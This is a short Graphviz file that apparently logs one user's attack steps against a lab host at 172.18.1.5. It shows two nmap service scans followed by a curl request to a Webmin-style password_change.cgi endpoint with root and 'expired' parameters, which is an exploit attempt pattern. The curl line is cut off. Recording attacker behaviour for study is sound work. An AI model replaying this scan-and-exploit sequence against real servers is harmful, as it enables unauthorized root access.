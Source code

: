 // creating graph for user: 79
digraph {
	node [shape=box]
	1 [label="nmap -sv 172.18.1.5 M0 "]
	2 [label="nmap -sV 172.18.1.5 M1 "]
	4 [label="curl 172.18.1.5:10000/password_change.cgi -d 'user=root&pam=&expired=2 A4 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 4 [constraint=false]
	rankdir=LR
}
